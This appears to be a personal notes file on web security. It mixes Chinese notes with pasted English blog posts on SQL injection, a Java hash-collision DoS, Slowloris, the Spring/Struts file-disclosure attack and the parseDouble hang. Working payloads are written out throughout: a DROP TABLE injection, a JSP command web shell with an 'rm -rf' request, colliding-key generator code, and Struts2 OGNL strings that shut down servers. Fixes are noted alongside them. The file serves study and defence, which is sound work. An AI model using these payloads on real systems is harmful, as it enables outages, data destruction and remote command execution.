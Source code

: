 #+OPTIONS: "\n:t"

* sql 注入
** 举例
#+begin_src java
conn = pool.getConnection( );
String sql = "select * from user where username='" + username +"' and password='" + password + "'";
stmt = conn.createStatement();
rs = stmt.executeQuery(sql);
if (rs.next()) {
loggedIn = true;
	out.println("Successfully logged in");
} else {
	out.println("Username and/or password not recognized");
}
#+end_src

username 被设置为:
admin' OR '1'='1
那么
select * from user where username='admin' OR '1'='1' and password=' '
sql语句执行成功。


password 设置为
x'; DROP TABLE members; --
好了，
select * from user where username='x' and password='x'; DROP TABLE members; --'
数据表members被删除了。

** 解决办法
#+begin_src java
String selectStatement = "SELECT * FROM User WHERE userId = ? ";
PreparedStatement prepStmt = con.prepareStatement(selectStatement);
prepStmt.setString(1, userId);
ResultSet rs = prepStmt.executeQuery();
#+end_src

但是如下这样写，还是存在sql注入的问题
#+begin_src java
String strUserName = request.getParameter("Txt_UserName"); 
PreparedStatement prepStmt = con.prepareStatement("SELECT * FROM user WHERE userId = '+strUserName+'");
#+end_src

* 哈希冲突攻击
Hash collisions are a hell of a thing
 
A few months ago, Julian Wälde and Alexander Klink presented at 28C3 about an exploit that can cause a server to see 99% CPU utilization. I hadn’t heard of the attack until a coworker of mine showed me the nruns article on the subject. We decided to have a little fun and see what we could do. This blog will show how to use a version of Julian and Alexander’s attack in Java.

** A new attack you say?

Actually, not quite. This attack was identified back in 2003, but it seems like it just disappeared even though just about every language has this weakness, since most of them use hashtables for POST parameters. Note that this isn’t even a distributed DoS! And that’s not even the best part - with any half-decent residential connection, you can likely transmit enough data to lock down entire servers. And no, I didn’t add an extra s to servers!

** Hash collisions?

The way many application servers work (from here on out I’ll focus on Java and Apache Tomcat, but this theory applies to many) when you submit parameters in a POST is to put them in a hash table. The default limit for POST request sizes is generally 2MB. What we’ll do next is show how to generate a message to bring a server to its knees.

Non randomized hashcode functions are bad, mmk?

The details of how Java hashcode works boils down to using DJBX33A with mutliplication constant 31 and a start value of 0, and if you’re interested, some Googling will show you details. For our purposes, it’s enough to know that the (extremely short) strings “Aa” and “BB” hash to the same value. (“C#” shares the hash too, but we’ll ignore it for our purposes) Even more importantly, there’s an easy way to generate permutations of these two tokens that will share a hash as well! Considering we have 2MB to work with, some math will show us that if we use 32-character long strings, we will be able to get a query constructed that causes 65,536 keys to hash to the same value! Since we’re using 2 character tokens, the number of permutations can be calculated with the formula 2^n, where n is the number of spots (16 in our case).

You found colliding hashes! Congratulations!

The key is that you’re generating ~65k keys that ALL hash to the same value, which makes processing take ridiculous amounts of time. My residential internet that costs less than $40 a month has 250KB/s upload. Trasmitting a 2MB POST at this rate takes a whopping eight seconds. So how long does this POST take to process? Inserting into a HashMap that has a key collision takes O(n^2) time. Since every single key we generate will collide, that’s 65k^2, which is a lot of comparisons.

Stop talking, show me some cool stuff already

Well, fine!
#+begin_src java
String[] tokens = {"Aa", "BB"};

int spots = 16;

// We'll keep track of permutations per "level" (amount of tokens)
List<String>[] permutations = new ArrayList[spots];
for (int i = 0; i < permutations.length; i++) {
    permutations[i] = new ArrayList<String>();
}

// The first level of tokens is just "Aa" and "BB"
for (int j = 0; j < 2; j++) {
    permutations[0].add(tokens[j]);
}

// Generate all combinations with duplicates
// First level: AaAa AaBB BBAa BBBB
// Second level: AaAaAa AaAaBB AaBBAa AaBBBB ....
for (int i = 1; i < spots; i++) {
    for (String permutation : permutations[i-1]) {
        // Yo dawg, I heard you like loops
        for (int j = 0; j < 2; j++) {
            String newPermutation = permutation + tokens[j];
            permutations[i].add(newPermutation);
        }
    }
}

for (int i = 0; i < 59000; i++) {
    System.out.println(permutations[permutations.length - 1].get(i) + "=1&");
}
#+end_src

Like I mentioned earlier, Java’s hashing has an interesting property here. At any given level, EVERY combination generated will hash to the exact same thing. At the 16th level (32 bytes per key), we have 2^16 (65,536) combinations to work with. This gives us just over 2MB of keys. However, we can’t just submit a list of keys; we need values to tie them to. The smallest number of bytes then is is 35, which would be <key>=1&. So, 2^16 * 32 / 35 = 59,918. Leaving some extra room for fun, let’s call it 59,000 keys. So now, you can generate a POST that’s just at 2MB for our particular attack. Save that to a file, and then run:
#+begin_example
lwp-request -m POST localhost < attack.txt
#+end_example
at some interval. Congratulations on DoSing just about every Java application server on the Internet! I tried this locally, and with 59,000 arguments running through a Spring application, I locked one of my four cores at 100% for…

wait for it…

well, I don’t actually know. I got tired of waiting after 10 minutes had passed. I didn’t have my laptop’s power cable at home, and my battery was about to run out. However, it utilized 100% of the a core for at LEAST ten minutes. I’m tempted to try this on a production box, but I’ve been able to successfully channel my inner Good Guy Greg and refrain so far.

Now what?

Excellent question! If you’re running Tomcat, upgrade to either 7.0.23 or 6.0.35. These will limit the number of POST parameters to 10k, which Apache claims is small emough to prevent this attack. The article mentions a couple of other workarounds as well. The moral of the story is you can't trust the system should go make sure your application servers are up to date or implement a work around!

Java sucks and you’re a bad person!

Okay :(

What about other languages?

A 2MB POST takes SIX HOURS to parse in Ruby! Python by default limits POSTs to 1MB, but that still takes 7 minutes to parse! This is pretty much language agnostic if you can figure out a way to generate colliding hashes!

Extra credit

Careful readers will have noted the third colliding hash in the Java example (“C#”). As it turns out, you can do an attack with 3^n collisions instead of the one I demonstrated above at 2^n! This is obviously better as you can fit more (shorter) colliding keys into the same amount of space (2MB). For the theory behind that, definitely go check out the original presentation and nruns’ great article.

* nginx 漏洞
http://sebug.net/appdir/Nginx
http://sebug.net/

* 启明星辰的网址
  可以看安全漏洞公告
http://www.venustech.com.cn/
* off by one 一个安全相关的网站
http://blog.fortify.com/blog/
* Apache Tomcat Slowloris工具拒绝服务漏洞
临时解决方法：
 1. 通过server.xml内定义的连接器的connectionTimeout属性，配置一个合适的超时时间。
 2. 配置防火墙相关设置
 参考与该漏洞相类似的一个漏洞的防护方法的相关讨论，见
 https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2007-6750
 厂商补丁：
 Apache Group
 ------------
 目前厂商还没有提供补丁或者升级程序，我们建议使用此软件的用户随时关注厂商的主页以获取最新版本

* Slowloris
攻击原理:
攻击方先发送一个http header:
GET / HTTP/1.1\r\n
Host: Target host\r\n
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n
Content-Length: 42\r\n
结果就少了一个\r\n, Apache说: 我等!
攻击方再发一坨X-a: b\r\n
Apache已经找不到人生的目标了,继续等...,
攻击方不停的新建连接，等到Apache连接数耗尽,目标达到

受影响(affects)的httpd:
    Apache 1.x/2.x, dhttpd, GoAhead WebServer, Squid, others...?
不受影响(Not affects)的httpd:
    IIS6.0,IIS7.0, lighty, others...?


Slowloris有几个很重要的基本参数: 
tcp connection timeout:默认5秒
re-try timeout:默认100秒
connections:1000
Multithreading:Enabled
剩下的就是perldoc ./slowloris.pl的事情了，没装perldoc直接去看文件末尾也能看懂
* Application Frameworks and Static Analysis
Last week you learned about some of the more advanced features in SCA and how they are used to support and identify vulnerabilities in application frameworks.  We also discussed dataflow analysis.  But dataflow analysis is not sufficient to adequately cover application frameworks.  One has to look at the application framework with a discerning eye and identify vulnerabilities in the framework which are specific to the use of that framework.   This week we will shift gears and start looking at framework specific vulnerabilities.  
Framework Specific Vulnerabilities (Error Prone APIs)

Framework specific vulnerabilities relate to coding constructs or security holes which are created by well meaning developers (usually in the name of productivity enhancements) which allow a new and .  Struts 2 has the following:  over exposed request bound objects, inconsistent model on the value-stack, value-stack shadowing, file upload DOS, file disclosure, blended threats, default stack vulnerabilities, under inclusive exception handling, exposed *Aware interfaces, exposed methods (most privilege), framework specific race conditions, OGNL script injection, and file download vulnerabilities.

I obviously cannot go through all of the vulnerabilities identified above but let’s look at framework specific file disclosure.
Framework Specific File Disclosure

Framework specific file disclosure is a vulnerability where an attacker can download any file that is part of the application, remotely or execute files are the server remotely.  The files that are downloadable are configuration files (web.xml, applicationContext.xml, default.properties, etc.), jar files (any jar files in the WEB-INF/lib directory), and class files (any class under the /WEB-INF/classes directory).  It was originally discovered in a constructor argument to Spring MVC’s ModelAndView(…) object by Ryan Berg and Dinis Cruz (http://o2platform.files.wordpress.com/2011/07/ounce_springframework_vulnerabilities.pdf).  Ryan and Dinis had discovered this vulnerability in the Spring MVC framework but this is a serious vulnerability which exists in many MVC frameworks.  Here is what the vulnerability looks like across different frameworks:

 

//Struts 1.x given you are in an Action method …

String dest = request.getParameter(“url”);

return ActionForward(dest);

 

//Struts 2.x which is a bit more complicated because it includes the 

//configuration file below

Public class ProcessOrderAction {

Private String dest;

//public getter and setters omitted

…

 

//Struts 2.x configuration file

<action name=”ProcessOrder_*” method=”{1}” class=”ProcessOrderAction” >

     <result name=”success”> ${dest} </result>

…

 

Or 

 

<%-- in a Struts JSP page --%>

<s:include value=”${param.dest}” />

 

Or

 

<%-- in a JEE JSP page --%>

<jsp:include page=”${param.dest}” />

<jsp:forward page=”${param.dest}” />

 

Or 

 

//Spring 3 annotated method

@RequestMapping (“/processOrder”)

public String processMyOrder(@RequestParam String dest, @RequestParam String id, @ModelAttribute Order order) {

…

return dest;

 

Or 

 

//In a servlet

String dest = request.getParameter(“dest”);

RequestDispatcher rd = request.getRequestDispatcher(dest);

rd.forward(req, res);

 

I could go on and on but you get my drift.  

To exploit this vulnerability you can either pass in the full path to the file you want or utilize path parameters.

When the dest is directly being used you can pass in:

http://www.yourserver.com/webApp/logic?dest=/WEB-INF/web.xml

In other cases you may need to pass in 

http://www.yourserver.com/webApp/logic?dest=forward:/WEB-INF/web.xml

and finally you may need to pass in 

http://www.yourserver.com/webApp/logic?dest=../WEB-INF/web.xml;test=

this is due to the funny way Spring MVC resolves views.

If you return a string from a @RequestMapped method it will pass the string to an InternalResourceViewResolver.  A typical view resolver is configured as follows:

<bean id="viewResolver" class="org.springframework.web.servlet.view.InternalResourceViewResolver">

        <property name="prefix" value="/WEB-INF/jsp/"/>

        <property name="suffix" value=".jsp"/>

</bean>

 

The way this works is that the string returned from a request mapped method is pre-pended with the prefix and post-pended with the suffix.  So if “processOrder” is returned from:

//Spring 3 annotated method

@RequestMapping (“/processOrder”)

public String processMyOrder(@RequestParam String dest, @RequestParam String id, @ModelAttribute Order order) {

…

return “processOrder”;

…

Then the request is forwarded to “/WEB-INF/jsp/processOrder.jsp”.

To subvert the prefix and suffix the attacker can use path parameters.  Path parameters are parameters passed in after the “;” (semicolon) in a URL.

So the attacker can return “../web.xml;test=x” which will forward the request to:

/WEB-INF/jsp/../web.xml;test=x.jsp

This request returns the web.xml file in the browser and test=x.jsp is treated as a path parameter.

If you see the following and think you are safe then you would be wrong depending on the app server you are running:

return new ActionForward(“/WEB-INF/jsp/someFile.jsp?param=” +

req.getParameter(“input”) );

Normally an attacker would not be able to exploit this as a file disclosure but if the application was running on certain versions of tomcat an attacker could still successfully carry out the file disclosure attack even if only appending a request parameter value.

According to CVE-2008-2370, “Apache Tomcat 4.1.0 through 4.1.37, 5.5.0 through 5.5.26, and 6.0.0 through 6.0.16, when a RequestDispatcher is used, performs path normalization before removing the query string from the URI, which allows remote attackers to conduct directory traversal attacks and read arbitrary files via a .. (dot dot) in a request parameter.”

So the attacker could pass in “/../../web.xml” and the web.xml would be displayed as the URL would look like the following:

/WEB-INF/jsp/someFile.jsp?param=/../../web.xml

Which gets canonicalized down to:

/WEB-INF/web.xml

But you may say, “What is the big deal if I reveal some configuration files especially if there is no confidential data in them.”  There are two reasons why the file disclosure is especially bad:  1. The attacker can download your intellectual property including class files and jar files within your application.  2.  This attack can be combined with a file upload vulnerability (as a server side blended attack) to allow an attacker to execute arbitrary system level commands.

The book, Struts 2 Design and Programming: A Tutorial by Budi Kurniawan provide a file upload example code similar to the following:

 

public class FileUploadAction extends ActionSupport {

private File attachment;

private String attachmentFileName;

private String attachmentContentType;

public String upload() throws Exception {

     ServletContext sc = ServletActionContext.getServletContext();

     String uploadDir = sc.getRealPath(“/WEB-INF”);

     uploadedDir = uploadedDir + “/uploadedFiles”;

     File savedFile = new File(uploadedDir, attachmentFileName);

     Attachment.renameTo(savedFile);

}

I tried getting “..\” into the attachmentFileName without success because the “..” were getting filtered by the Apache Commons File Upload component.  So if we assume that you could NOT do a path manipulation attack, why is this code important to the file disclosure vulnerability?

…

What if an attacker could upload a JSP file with the following body:

 

// From body of commandProxy.jsp

<%  

Runtime rt = Runtime.getRuntime();

rt.exec(request.getParameter(“osCommand”));

%>

 

Then the attacker could use the file disclosure vulnerability in the following way.

http://www.yourserver.com/webApp/logic?dest=/WEB-INF/uploadedFiles/commandProxy.jsp?osCommand=rm%20–rf%20*

The attacker now has the ability to pown your server.
Conclusion

I have only scratched the surface as to researching and exploiting application frameworks. All of the vulnerabilities I described above can be found with the static analysis rules I described above.   I hope I highlighted why you can count on Fortify to cover application frameworks and gave you insight into how we work.  Some of the rule scripting techniques I described are currently only supported for internal use, however plans are in the works to expand the custom rules documentation to put the power of rules scripting into your hands.  Once you see what you can do with custom rules and scripting, prepare yourself to be amazed.

 


* http://stackoverflow.com
* curl -H 'Accept-Language: en-us;q=2.2250738585072012e-308' http://example.org
 Accept-Language: da, en-gb;q=0.022250738585072012e-00306, en;q=0.022250738585072012e-00306
* Java Denial of Service Vulnerability

Java Denial of Service Vulnerability (Double Trouble)
« Fortify at RSA Conference 2011 | Main | Introducing Real-Time Hybrid Correlation: SAST-DAST Issue Correlation » 
The Back Story
 Most versions of Java and some versions of PHP enter an infinite loop trying to turn the string "2.2250738585072012e-308" into a double precision floating point value. (Remember scientific notation? Floats and doubles are good for representing really big and really small numbers. Very important for getting the physicists to shell out for supercomputers.) Here are the details on the bugs. 

 This is a recipe for a quick and easy denial of service attack. If you have a Java application that does something as simple as this:
     Double.parseDouble(request.getParameter("d"));
 attackers can wedge a thread every time they make an HTTP request. Now Anonymous doesn't need a botnet army to take your app offline. A laptop with an AOL dialup connection should be plenty. 

 From a language perspective, the situation for PHP is worse because of PHP's type coercion (Looks like a double? Parse it like a double.) But only versions 5.2 and 5.3 of PHP are vulnerable, and the PHP team released a patch last month. 

 For Java, the problem isn't a single number. There is a small range of numbers that cause the conversion to hang. But there are lots of ways to write any given floating point number, so those itty-bitty numbers turn into an enormous volume of potential input strings. (For example, the strings "2.2250738585072012e-308" and "0.022250738585072012e-00306" are equally problematic.) The upshot is that an attack is difficult to block from the network layer without catching some legitimate values too. 

The Tomcat Twist
 Think you're not vulnerable because your program doesn't use any doubles? Wrong answer. Tomcat uses parseDouble() on the value of the Accept-Language HTTP header when an application calls request.getLocale(). If your application takes locale into account, chances are it's vulnerable. This isn't the only under-the-covers place doubles are lurking, so the absence of direct calls to methods such as Double.parseDouble() or Double.valueOf() doesn't mean you're guaranteed safe. And chances are good Tomcat isn't the only bit of Java middleware or framework code that uses a double. 

The Punchline
 This bug is an excellent example of the evolving software security landscape. Until this problem came along, calling parseDouble() looked like an ideal way to validate input. Now parseDouble() is yet another weak point to protect. And so it goes. When you ship software, you have to make sure it's protected against the risks we know about today. But when you wake up tomorrow, new risks may well have emerged during the night. Building secure systems means more than just avoiding foreseeable mistakes. It means preparing for the unforeseeable too. That means being ready to respond when new vulnerabilities emerge. 

Next Steps
 Oracle and Tomcat have released patches this week. We expect other Java providers (such as IBM) to follow suit. But it will be quite a while before those fixes are widely deployed. Until then, here's what we're doing: 
We have released a Fortify Real-Time Analyzer (RTA) rulepack that protects against the attack at the code level. It monitors calls to the underlying class and flags calls that will cause the thread to hang. If desired, it can patch the code so that the vulnerability no longer exists. All without taking the app offline. Just saying. 
Next week the HP Application Security Center (ASC) will release a check for WebInspect so that vulnerable applications can be identified during security testing. 
The next Fortify Secure Coding Rulepack update for SCA (to be released at the end of February) will include static analysis rules to detect code that is vulnerable to an attack on methods such as parseDouble() and getLocale().


* A Closer Look at the Java 2.2250738585072012e-308 Bug
By Rick Regan (Published February 7th, 2011) 

Java’s decimal to floating-point conversion routine, the doubleValue() method of its FloatingDecimal class, goes into an infinite loop when converting the decimal string 2.2250738585072012e-308 to double-precision binary floating-point. I took a closer look at the bug, by tracing the doubleValue() method in the Eclipse IDE for Java (thanks to Konstantin Preißer for helping me set that up). What I found was that our initial analysis of the bug was wrong; what actually happens is that doubleValue()’s correction loop oscillates between two values, 0x1p-1022 and 0x0.fffffffffffffp-1022.

The Failing Code in doubleValue()

This section of code in the correction loop of doubleValue() is where the infinite loop manifests itself:
} else {
    // difference is non-trivial.
    // could scale addend by ratio of difference to
    // halfUlp here, if we bothered to compute that difference.
    // Most of the time ( I hope ) it is about 1 anyway.
    dValue += ulp( dValue, overvalue );
    if ( dValue == 0.0 || dValue == Double.POSITIVE_INFINITY )
        break correctionLoop; // oops. Fell off end of range.
    continue; // try again.
}

(This code is from JDK 6 Update 23; it lives in file j2se/src/share/classes/sun/misc/FloatingDecimal.java.)

To see the value of ulp() and the before and after values of dValue, I inserted printf() statements to view them as hexadecimal floating point constants.
Odd Numbered Passes of the Loop

These are the values of ulp() and dValue for the first, third, fifth, etc. time through the highlighted line of code:
ulp():                      -0x0.0000000000001p-1022
dValue before adding ulp():  0x1.0p-1022
dValue after adding ulp():   0x0.fffffffffffffp-1022

In other words, 2-1074 is subtracted from 2-1022, giving

1.111111111111111111111111111111111111111111111111111 x 2-1023.
Even Numbered Passes of the Loop

These are the values of ulp() and dValue for the second, fourth, sixth, etc. time through the highlighted line of code:
ulp():                       0x0.0000000000001p-1022
dValue before adding ulp():  0x0.fffffffffffffp-1022
dValue after adding ulp():   0x1.0p-1022

In other words, 2-1074 is added to

1.111111111111111111111111111111111111111111111111111 x 2-1023, giving

2-1022. Now the correction loop is right back where it started. 
The Initial Estimate Was Correct

The initial value of dValue was correct — it needed no adjustment. Therein lies the problem.
An Old Suggested Fix

In OpenJDK bug report 100119 — an earlier report of what turns out to be the same bug — there is a suggested one line of code fix: change this line of code in the correction loop
if ( (bigIntNBits == 1) && (bigIntExp > -expBias) ){

to
if ( (bigIntNBits == 1) && (bigIntExp > -expBias+1) ){

I tried it out, as did Konstantin; it stops the infinite loop and returns the correctly rounded result. Before the fix, the ‘if’ statement evaluates to true (and continues to do so on every odd numbered pass of the loop): bigIntExp=-1022 and -expBias=-1023. Adding one to -expBias makes the ‘if’ condition false, which leads to no adjustment — and an exit from the loop.
Is The Fix Correct?

The suggested fix works for this case — but does it work in all cases? We’ll have to wait and see what the Java experts have to say about it.
This is Not the Same as the PHP Bug

PHP’s decimal to floating-point conversion routine went into an infinite loop for a different number, a number just below the normal/subnormal number boundary: 2.2250738585072011e-308. The fix was to add the ‘volatile’ keyword to a variable used in the adjustment of the converted result. This addressed an issue related to how the code ran on the x87 architecture.

PHP’s decimal to floating-point conversion routine is C code — it is a version of David Gay’s strtod() function. Java’s decimal to floating-point conversion routine is java code, although obviously modeled on David Gay’s C code. Apparently, it was changed just enough to avoid the x87 error — but it introduced a new error.


* Java Hangs When Converting 2.2250738585072012e-308
By Rick Regan (Published January 31st, 2011) 

Konstantin Preißer made an interesting discovery, after reading my article “PHP Hangs On Numeric Value 2.2250738585072011e-308”: Java — both its runtime and compiler — go into an infinite loop when converting the decimal number 2.2250738585072012e-308 to double-precision binary floating-point. This number is supposed to convert to 0x1p-1022, which is DBL_MIN; instead, Java gets stuck, oscillating between 0x1p-1022 and 0x0.fffffffffffffp-1022, the largest subnormal double-precision floating-point number.

Send a Java Program Into An Infinite Loop

Compile this program and run it; the program will hang (at least it does on a 32-bit system with the latest JRE/JDK):
class runhang {
public static void main(String[] args) {
  System.out.println("Test:");
  double d = Double.parseDouble("2.2250738585072012e-308");
  System.out.println("Value: " + d);
 }
}
Send the Java Compiler Into An Infinite Loop

Try to compile this program; the compiler will hang:
class compilehang {
public static void main(String[] args) {
  double d = 2.2250738585072012e-308;
  System.out.println("Value: " + d);
 }
}
Where’s the Problem?

For the runtime case at least, Konstantin has narrowed the problem down to the “correction loop” in FloatingDecimal.java. See his comments on my PHP bug analysis article.

Like PHP, Java gets stuck crossing the normalized/unnormalized border, but in the opposite direction: it starts with an estimate just below DBL_MIN — 0x0.fffffffffffffp-1022 — and is trying to get up to DBL_MIN. but with a twist: it starts with an estimate that is correct — DBL_MIN — and then adjusts it to 0x0.fffffffffffffp-1022. It then adjusts that back to DBL_MIN, and around it goes…
Bug Report

Konstantin reported this problem to Oracle three weeks ago, but is still waiting for a reply. (Update: as per Konstantin’s comment below, the bug has been assigned “internal review ID of 1949967, which is NOT visible on the Sun Developer Network (SDN)”.)
Update: Previous Bug Reports Describe the Same Problem

Readers found two bug reports that describe the same problem (although not in terms of the magic number 2.2250738585072012e-308): bug number 100119 from 2009, and bug number 4421494 from 2001. (But don’t bother clicking on that last one — the link is now dead, as of 2/3/11.)
Addendum

As pointed out in the comments below, equivalent forms of the number cause the problem as well; examples:
0.00022250738585072012e-304 (decimal point placement)
00000000002.2250738585072012e-308 (leading zeros)
2.225073858507201200000e-308 (trailing zeros)
2.2250738585072012e-00308 (leading zeros in the exponent)
2.2250738585072012997800001e-308 (superfluous digits beyond digit 17)

* Struts2漏洞
Struts2的核心是使用的WebWork，处理Action时通过ParametersInterceptor（参数过滤器）调用Action的getter/setter方法来处理http的参数，它将每个http参数声明为一个ONGL语句。 
例如：
1、请求参数
    ?company.name=AILK&level=no1
2、经ONGL转义后，在Action中执行代码如下：
    getCompany.setName("AILK") 
    setLevel("no1") 
 
例如：
在请求Action中带上如下参数：
?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.sleep(999999999)')(\u0023rt\u003d@java.lang.Thread@currentThread()))=1
 

或者
?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1


可以停止当前Action所在的J2EE服务器（Tomcat, Resin, WebLogic，……）。
